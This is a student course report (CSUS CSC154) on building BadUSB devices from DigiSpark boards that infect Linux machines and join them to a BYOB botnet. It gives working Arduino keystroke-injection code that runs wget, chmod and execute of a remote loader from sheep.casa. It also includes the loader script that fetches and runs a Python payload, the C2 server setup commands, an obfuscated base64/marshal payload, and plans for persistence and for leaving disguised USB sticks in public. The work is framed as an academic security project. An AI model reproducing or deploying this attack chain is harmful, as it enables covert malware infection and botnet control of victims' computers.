


# CSUS CSC154: Project Midterm Report

## Objective  
The objective of this project is to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

### BadUSB  
To create our BadUSB devices we'll be using the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices will be recognized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### Botnet  
For our botnet we're currently still exploring a handful of open source frameworks. The leading contender at the moment is [Build Your Own Botnet](https://github.com/malwaredllc/byob). Other frameworks we're looking into include [GoBot2](https://github.com/SaturnsVoid/GoBot2), [UBoat](https://github.com/Souhardya/UBoat), and [Loki](https://github.com/Pure-L0G1C/Loki). There may be other frameworks we explore as they're discovered. Our ultimate goal is an easily deployed and managed *command and control server*, and the ability to generate cross platform compatible clients.


## Progress  

### DigiSpark  
Thus far, we've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 


**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  

**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   

**Figure 3:** Add DigiStump board manager url to configuration.


**Figure 4:** Board manager downloading DigiStump's board libraries.


**Figure 5:** Set board to Digispark Default.

The following code is what we've developed thus far to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.

### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.


**Figure 6:** Botnet C&C server droplet on Digital Ocean.


**Figure 7:** ASCII sheep, just for fun.


The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob/byob && pip install -r requirements.txt &&  mv ../../byob /opt/`. This clones the repository, installs the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```


**Figure 8:** Botnet server running, no current sessions.


### Payloads  

#### Loader
Our BadUSB attack downloads and executes the loader script. For our attack on Linux machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.


**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.


**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


## Demo  


## Todo
We've yet to configure our BadUSB devices to infect Windows or OSX machines. Additionally, we need to develop payloads for Windows and OSX to deliver via our BadUSB devices once they're configured. Across the team we should already have computers running each OS to begin our development. 

Ideally, the same BadUSB device would be able to infect Windows, OSX, and Linux. However, we're still uncertain that this is technically achievable given the way USB functions. Currently we do not have knowledge of how to detect which operating system a victim's computer is running. We may need to configure different devices to be plugged in depending on the victim's machine. However, we will still explore how one device may be used to infect all OS(s). An option we're exploring is simply loading all of our payloads onto one device, and attempting to execute each of them quietly until the machine is infected.

A different device per OS would be perfectly acceptable in an attack scenario in which the attacker has physical access to the victim's machine. The devices are cheap and small, so carrying three of them should be no issue. However, for attack scenarios in which the BadUSB device is left in a public place for a victim to find (disguised as a lost flash drive), the ability to infect any OS would greatly improve the success rate.

Lastly, once a victim is initially infected, we'd like to keep them infected. This means we're exploring how to add our payloads to run on startup, but without root/admin privileges this may not be feasible. 

